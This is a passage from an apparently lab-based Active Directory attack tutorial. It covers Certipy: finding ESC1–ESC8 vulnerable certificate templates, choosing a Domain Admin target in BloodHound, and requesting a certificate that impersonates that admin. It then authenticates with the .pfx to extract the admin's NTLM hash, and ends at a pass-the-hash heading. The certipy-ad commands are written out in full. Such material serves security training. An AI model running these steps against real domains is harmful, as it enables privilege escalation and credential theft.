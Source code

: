![image](https://github.com/user-attachments/assets/d4937ef9-2468-4e56-b1ba-3b917bb5d06b)

2. Locate and open the output file named `TIMESTAMP_Certipy.txt`

![image](https://github.com/user-attachments/assets/d99d2fd5-bddc-42ab-a6f9-d78c43798c82)

This file contains a complete summary of the operation, including:
- Certificate template details
- Certificate Authority (CA) name
- Requested subject name
- Whether the template is vulnerable (e.g., ESC1–ESC8 indicators)

### Certipy-ad: request
Once you've identified a vulnerable template, 

The next step is to request a certificate that impersonates a user (*possibly a Domain Admin*) by abusing the chosen template misconfigurations:

1. Let's move back to BloodHound.
2. In the pop-up list, select: Active Directory > Domain Information > All Domain Admins

![image](https://github.com/user-attachments/assets/1fbf9a07-9da1-4841-b934-0c6c4bca2975)

3. Identify the most viable Domain Administrator account to escalate privileges through:
- Does it have reachable sessions?
- Belongs to exploitable paths?
- Has associated Kerberoastable SPNs or weak ACLs?

4. Request the Certificate as Domain Administrator:
```bash
certipy-ad -debug req -k -u 'ricksmith@lab.local' -p 'Spring2025!' -dc-ip 10.10.x.10  -ns 10.10.x.10 -dns-tcp -target 'dc1.lab.local' -dns-tcp -ca 'lab-DC1-CA' -template 'ESC1-Vulnerable' -upn 'ricktheam@lab.local' -dc-host 'lab.local' -sid 'S-1-5-21-1856490383-3813198486-439410601-1211'
```

![image](https://github.com/user-attachments/assets/d5f82420-7b3f-4e45-ab85-aa67d5006aad)


### Certipy-ad: authenticate 
After requesting a certificate via a vulnerable ADCS template, you can use Certipy to authenticate as the impersonated user: 
- No password needed
- Performs Kerberos authentication using the certificate (via PKINIT)
- Extracts NTLM hash of the impersonated user from the TGT
- Confirms whether the certificate is valid and usable

Authenticate as Domain Administrator via .pfx:
```bash
certipy-ad auth -pfx ricktheam.pfx -dc-ip 10.10.X.10  -ns 10.10.X.10 -dns-tcp
```

![image](https://github.com/user-attachments/assets/6cf1c041-6c38-4df6-bb2f-c516763a8eff)


## NetExec: Validating Credentials via SMB (Pass-the-Hash)
